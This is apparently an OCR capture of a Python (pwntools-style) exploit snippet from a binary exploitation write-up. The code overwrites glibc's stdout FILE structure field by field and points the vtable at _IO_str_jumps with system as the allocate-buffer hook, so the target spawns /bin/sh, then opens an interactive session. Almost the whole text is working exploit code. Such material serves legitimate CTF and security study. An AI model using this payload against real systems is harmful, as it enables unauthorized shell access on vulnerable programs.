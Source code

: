 ```python
# _IO_getline_info loops again

# Overwriting the `stdout` file structure
fake  = p64(0xfbad2886) # original _flags & ~_IO_USER_BUF
fake += p64(stdout) * 4 # _IO_read_ptr to _IO_write_base
fake += p64((bin_sh - 100) // 2) # _IO_write_ptr
fake += p64(0) * 2 # _IO_write_end and _IO_buf_base
fake += p64((bin_sh - 100) // 2) # _IO_buf_end
fake += p64(0) * 4 # _IO_save_base to _markers
fake += p64(stdin) # _chain
fake += p32(1) # _fileno
fake += p32(0) # _flags2
fake += p64(0xffffffffffffffff) # _old_offset
fake += p16(0) # _cur_column
fake += p8(0) # _vtable_offset
fake += b'\n' # _shortbuf
fake += p32(0) # padding between shortbuf and _lock
fake += p64(stdfile_lock) # _lock
fake += p64(0xffffffffffffffff) # _offset
fake += p64(0) # _codecvt
fake += p64(wide_data) # _wide_data
fake += p64(0) # _freeres_list
fake += p64(0) #_freeres_buf
fake += p64(0) #__pad5
fake += p32(0xffffffff) # _mode
fake += b'\0'*20 # _unused2
fake += p64(io_str_jumps) # vtable
fake += p64(system) # _s._allocate_buffer
fake += p64(stdout) # _s._free_buffer

p.sendline(fake)

p.interactive()
```
